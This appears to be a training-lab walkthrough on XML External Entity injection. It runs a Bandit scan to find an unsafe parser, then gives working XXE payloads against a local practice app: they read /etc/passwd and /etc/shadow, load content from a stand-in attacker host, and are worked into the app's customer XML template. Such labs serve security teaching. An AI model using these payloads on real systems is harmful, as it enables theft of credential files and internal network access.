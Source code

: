 # External entity attack

An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

Attacks can include disclosing local files, which may contain sensitive data such as passwords or private user data, using file: schemes or relative paths in the system identifier. Since the attack occurs relative to the application processing the XML document, an attacker may use this trusted application to pivot to other internal systems, possibly disclosing other internal content via http(s) requests or launching a CSRF attack to any unprotected internal services. In some situations, an XML processor library that is vulnerable to client-side memory corruption issues may be exploited by dereferencing a malicious URI, possibly allowing arbitrary code execution under the application account. Other attacks can access local resources that may not stop returning data, possibly impacting application availability if too many threads or processes are not released.


### Objective

* Read a local file from the filesystem by means of the XXE injection (such as /etc/passwd)

#### Discovery

We can discover XXE by looking into the application where XML is being parsed.
There are default safe and default unsafe parsers you can find on the web. So it is always
good to do some research about the type of parser before implementation.

First lets try to run a bandit scan against the application source code!

Bandit is a tool designed to find common security issues in Python code. To do this Bandit processes each file, builds an AST from it, and runs appropriate plugins against the AST nodes. Once Bandit has finished scanning all the files it generates a report.

Installing Bandit is as easy as:

```
pip install bandit
# Or if you're working with a Python 3 project
pip3 install bandit
```

And to run we simply do:

```
bandit -r path/to/your/code
```

Let's look at some of the output

```
>> Issue: [B319:blacklist] Using xml.dom.pulldom.parseString to parse untrusted XML data is known to be vulnerable to XML attacks. Replace xml.dom.pulldom.parseString with its defusedxml equivalent function or make sure defusedxml.defuse_stdlib() is called
   Severity: Medium   Confidence: High
   Location: target/project/controllers/Validator.py:15
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b313-b320-xml-bad-pulldom
14	def XML_validator():
15	    doc = parseString(request.form['customers'])
16	    try:
```

Ofcourse we can also discover this vulnerability by try and error.
If we go to the following page we find an "XML validator"

```
http://0.0.0.0:8081/validator
```

To work with the right format we can start by downloading the valid format from 
"Download XML example template" and tinker with this output to form a XXE attack and load
resources from the local web server.

the valid xml output looks as following:

```
<customers>
    <customer> Mr Mario, Bros </customer>
    <customer> Mr Luigi, Bros </customer>
    <customer> Mr Club, Mate </customer>
    <customer> Ms Peach, Princes</customer>
</customers>
```

#### Spoiler 1 - payload examples

payload examples:

```
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
   ```

   As you can see we can load sources from both internal file system as from external sources.
   That can also be very interesting when you want to perfom other sorts of attacks like XSS.

   Now lets refer again to the original XML output and tinker it in a way where it is leveraging
   our attack!

```
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE customer [  
   <!ELEMENT customer ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><customers>
    <customer> sd&xxe; </customer>
    <customer> Mr Luigi, Bros </customer>
    <customer> Mr Club, Mate </customer>
    <customer> Ms Peach, Princes</customer>
</customers>
```


